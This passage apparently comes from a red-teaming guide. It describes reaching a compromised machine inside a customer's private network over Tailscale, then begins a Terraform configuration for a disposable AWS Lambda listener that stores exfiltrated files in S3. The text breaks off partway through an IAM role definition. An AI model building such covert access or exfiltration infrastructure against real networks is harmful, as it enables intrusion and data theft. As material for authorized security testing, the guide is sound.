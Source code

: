 You can also connect to the compromised system from whatever machine that is running Tailscale and it is authenticated to your tailnet.  
In the screenshot below, you can see a windows machine in your own private network that seamlessly connect to the  
compromised machine inside the customer private network (you can use IP address or Tailscale DNS name resolution):  

![terminalssh](./images/tailscale-terminal-ssh.png)  



  

## Deploy a Lambda function for data exfiltration  

The following Terraform configuration enables the seamless, on-demand deployment of a disposable, public serverless listener that can be leveraged for data exfiltration during red teaming campaigns.    
The exfiltrated files are then stored on an S3 bucket: you can upload any single file (e.g., text, binary, images, etc.) or full directories (the directory tree will be preserved).  


main.tf:  
```hcl
provider "aws" {
  region = "eu-north-1"
}

resource "aws_iam_role" "lambda_role" {
  name = "lambda_s3_execution_role"
  assume_role_policy = jsonencode({
    Version = "2012-10-17",
    Statement = [
      {
        Action = "sts:AssumeRole",
        Effect = "Allow",
        Principal = {
          Service = "lambda.amazonaws.com"
```